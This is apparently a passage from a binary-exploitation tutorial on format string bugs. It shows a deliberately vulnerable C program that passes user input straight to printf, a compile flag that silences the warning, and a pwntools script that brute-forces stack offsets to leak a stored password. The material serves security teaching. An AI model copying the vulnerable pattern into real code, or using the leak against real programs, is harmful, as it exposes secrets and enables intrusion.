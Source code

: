 ## Read passwords

```c
#include <stdio.h>
#include <string.h>

char bss_password[20] = "hardcodedPassBSS"; // Password in BSS

int main() {
    char stack_password[20] = "secretStackPass"; // Password in stack
    char input1[20], input2[20];

    printf("Enter first password: ");
    scanf("%19s", input1);

    printf("Enter second password: ");
    scanf("%19s", input2);

    // Vulnerable printf
    printf(input1);
    printf("\n");

    // Check both passwords
    if (strcmp(input1, stack_password) == 0 && strcmp(input2, bss_password) == 0) {
        printf("Access Granted.\n");
    } else {
        printf("Access Denied.\n");
    }

    return 0;
}
```

Compile it with:

```bash
clang -o fs-read fs-read.c -Wno-format-security
```

### Read from stack

The **`stack_password`** will be stored in the stack because it's a local variable, so just abusing printf to show the content of the stack is enough. This is an exploit to BF the first 100 positions to leak the passwords form the stack:

```python
from pwn import *

for i in range(100):
    print(f"Try: {i}")
    payload = f"%{i}$s\na".encode()
    p = process("./fs-read")
    p.sendline(payload)
    output = p.clean()
    print(output)
    p.close()
```
